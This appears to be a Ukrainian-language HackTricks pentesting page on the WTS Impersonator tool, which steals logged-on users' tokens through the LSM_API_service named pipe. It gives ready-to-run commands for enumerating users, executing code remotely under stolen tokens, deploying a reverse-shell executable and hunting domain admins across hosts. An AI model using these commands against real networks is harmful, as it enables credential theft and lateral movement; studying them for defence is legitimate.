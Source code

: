 {{#include ../../banners/hacktricks-training.md}}

Інструмент **WTS Impersonator** використовує **"\\pipe\LSM_API_service"** RPC Named pipe для тихого перерахунку увійдених користувачів та захоплення їх токенів, обходячи традиційні техніки імперсонування токенів. Цей підхід полегшує безперешкодні бічні переміщення в мережах. Інновація, що стоїть за цією технікою, належить **Omri Baso, чия робота доступна на [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Основна Функціональність

Інструмент працює через послідовність викликів API:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Ключові модулі та використання

- **Перерахунок користувачів**: Локальний та віддалений перерахунок користувачів можливий за допомогою інструмента, використовуючи команди для кожного сценарію:

- Локально:
```powershell
.\WTSImpersonator.exe -m enum
```
- Віддалено, вказуючи IP-адресу або ім'я хоста:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Виконання команд**: Модулі `exec` та `exec-remote` вимагають контексту **Служби** для функціонування. Локальне виконання просто потребує виконуваного файлу WTSImpersonator та команди:

- Приклад для локального виконання команди:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe можна використовувати для отримання контексту служби:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Віддалене виконання команд**: Включає створення та встановлення служби віддалено, подібно до PsExec.exe, що дозволяє виконання з відповідними правами.

- Приклад віддаленого виконання:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Модуль полювання на користувачів**: Орієнтується на конкретних користувачів на кількох машинах, виконуючи код під їхніми обліковими даними. Це особливо корисно для націлювання на адміністраторів домену з правами локального адміністратора на кількох системах.
- Приклад використання:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
